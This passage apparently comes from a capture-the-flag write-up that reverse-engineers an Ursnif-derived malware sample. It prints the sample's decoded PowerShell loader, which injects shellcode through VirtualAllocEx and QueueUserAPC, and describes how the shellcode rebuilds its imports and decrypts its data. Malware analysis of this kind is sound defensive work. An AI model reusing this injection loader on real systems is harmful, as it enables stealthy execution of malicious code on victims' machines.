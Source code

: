 The code in `Timerpro.D` is quite long, but the start of it decodes to 

```powershell
[byte[]]$rpl = <very long DLL data>
(...)

$cqltd="
[DllImport(`"kernel32`")]`npublic static extern IntPtr GetCurrentThreadId();`n
[DllImport(`"kernel32`")]`npublic static extern IntPtr OpenThread(uint nopeyllax,uint itqxlvpc,IntPtr weo);`n
[DllImport(`"kernel32`")]`npublic static extern uint QueueUserAPC(IntPtr lxqi,IntPtr qlr,IntPtr tgomwjla);`n
[DllImport(`"kernel32`")]`npublic static extern void SleepEx(uint wnhtiygvc,uint igyv);";

$tselcfxhwo=Add-Type -memberDefinition $cqltd -Name 'alw' -namespace eluedve -passthru;

$dryjmnpqj="ffcx";
$nayw="
[DllImport(`"kernel32`")]`npublic static extern IntPtr GetCurrentProcess();`n
[DllImport(`"kernel32`")]`npublic static extern IntPtr VirtualAllocEx(IntPtr wasmhqfy,IntPtr htdgqhgpwai,uint uxn,uint mepgcpdbpc,uint xdjp);";

$ywqphsrw=Add-Type -memberDefinition $nayw -Name 'pqnvohlggf' -namespace rmb -passthru;
(...)

$jky="epnc";

$kwhk=$tselcfxhwo::OpenThread(16,0,$tselcfxhwo::GetCurrentThreadId());
if($yhibbqw=$ywqphsrw::VirtualAllocEx($ywqphsrw::GetCurrentProcess(),0,$rpl.Length,12288,64))
{
 [System.Runtime.InteropServices.Marshal]::Copy($rpl,0,$yhibbqw,$rpl.length);
 if($tselcfxhwo::QueueUserAPC($yhibbqw,$kwhk,$yhibbqw))
 {
  $tselcfxhwo::SleepEx(5,3);
 }
}
```

This is a typical injection technique, which boils down to injecting code through `QueueUserAPC()`, then setting the thread to an alertable state, which triggers the APC and runs the shellcode. It also gets access to a variety of API calls by compiling some C# DLL files on the fly.

Now for the shellcode itself. It comes without any sort of MZ/PE header or imports, so the first thing it does is to traverse the Thread Environment Block, looking for `Kernelbase.dll` like this `v5 = *(**(*(*(__readgsqword(0x30u) + 0x60) + 0x18i64) + 0x10i64) + 0x30i64) & 0xFFFFFFFFFFFFF000ui64;`. Then it starts rebuilding its import table from scratch, and decrypting its section header using some hard-coded XOR keys. This loading technique is used repeatedly throughout this challenge.

After rebuilding itself, the binary now starts to fetch some system information. It starts by fetching the current user SID, hashes it, and initializes an xorshift64star PRNG with the result. It also looks for some section inside itself, starting with `WD`, and treats it as some kind of encrypted data entry table. This is basically exactly like Ursnif, which is most likely the banking malware that was hinted to in the introduction. Knowing that it's built on Ursnif, we can look up some older leaked source code dumps, and read a bit more about it. Noteworthy things, is that Ursnif use the Serpent cipher, RSA and XOR in some CBC mode as encryption algorithms, and AP32 for (de)compression. The `WD` header is documented well [here](https://www.fireeye.com/blog/threat-research/2020/01/saigon-mysterious-ursnif-fork.html), and with that description I see that the binary contains two entries: `CRC_PUBLIC_KEY` and `CRC_WORDLIST`.
